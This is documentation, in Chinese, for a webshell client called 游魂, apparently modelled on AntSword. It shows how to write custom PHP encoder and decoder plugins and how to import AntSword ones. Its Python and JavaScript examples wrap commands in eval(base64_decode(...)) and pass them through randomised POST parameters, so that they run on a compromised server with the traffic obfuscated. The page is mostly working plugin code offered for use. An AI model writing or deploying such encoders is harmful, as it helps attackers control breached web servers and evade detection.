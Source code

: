 # 示例：自定义Encoder

TODO: 做一个添加encoder的页面

首先根据启动时打印的路径打开游魂的配置文件夹，找到其中的`modules/php_encoders`文件夹

新建python文件（如`example.py`）并往其中写入以下内容：

```python
import base64

def encode(code: str) -> str:
    return f"eval(base64_decode({base64.b64encode(code.encode()).decode()!r}));"
```

最后重启游魂即可在webshell编辑页面看到encoder

# 示例：自定义Decoder

TODO: 做一个添加decoder的页面

首先根据启动时打印的路径打开游魂的配置文件夹，找到其中的`modules/php_decoders`文件夹

新建python文件（如`example.py`）并往其中写入以下内容：

```python
import base64

phpcode = """
function decoder_echo_raw($s) {
    echo base64_encode($s);
}
"""

def decode(s: str) -> str:
    return base64.b64decode(s).decode()
```

最后重启游魂即可在webshell编辑页面看到decoder

# 示例：将蚁剑的encoder和decoder导入到游魂中

首先根据启动时打印的路径打开游魂的配置文件夹

然后在`AntSwordEncoder`或`AntSwordDecoder`中写入js文件，并重启游魂即可

比如在`AntSwordEncoder`写入文件`example-base64.js`

```js
module.exports = (pwd, data, ext={}) => {
    let randomID = `_0x${Math.random().toString(16).substr(2)}`;
    data[randomID] = Buffer.from(data['_']).toString('base64');
    data[pwd] = `eval(base64_decode($_POST[${randomID}]));`;
    delete data['_'];
    return data;
}
```

或者在`AntSwordDecoder`写入文件`example-base64.js`

```js
module.exports = {
  asoutput: () => {
    return `function asenc($out){
      return @base64_encode($out);
    }
    `.replace(/\n\s+/g, '');
  },
  decode_buff: (data, ext={}) => {
    return Buffer.from(data.toString(), 'base64');
  }
}
```

完成后可以在webshell编辑界面看到encoder

注意：游魂不支持和蚁剑内部设计高度相关的某些环境变量，某些encoder需要进行修改才能使用
